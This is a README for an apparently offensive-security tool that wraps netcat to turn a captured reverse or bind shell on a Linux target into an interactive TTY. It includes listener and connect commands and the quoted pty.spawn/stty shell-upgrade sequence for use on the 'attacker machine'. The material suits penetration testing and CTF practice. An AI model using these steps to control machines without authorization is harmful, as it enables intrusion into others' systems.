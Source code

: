 # Netcat Interactive
Netcat Interactive is a python wrapper around Netcat (nc), to change a
bind or reverse shell to a Linux machine, into a **interactive** 
shell.

## How to Use
Use this on the attacker machine. Make sure `nc` is available in your
`PATH`, then use `nc-ai` just as you would use `nc`. For example on
the attacker machine execute the following to get a reverse shell:
```
nc-ai -nvlp 4444
...
nc-ai -nv 127.0.0.1 4444
```

When you have a connection and a plain shell, press `ESC` to upgrade the shell to a
interactive shell.

## Limitations
Only works for Linux...  
Only tested on kali...  
Only tried with bash...  
Requires bash on the target...  
Requires python on the target...

Netcat binary should be in PATH and be called `nc`.

Probably more...

## Issues
When waiting for a victim to connect to us, `CTRL-C` does not stop the script.

## References
The solution is based on the following blog:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

In short:
```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

The stdout/stderr/stdin redirection is based on the following:
https://stackoverflow.com/questions/31926470/run-command-and-get-its-stdout-stderr-separately-in-near-real-time-like-in-a-te/31953436#31953436
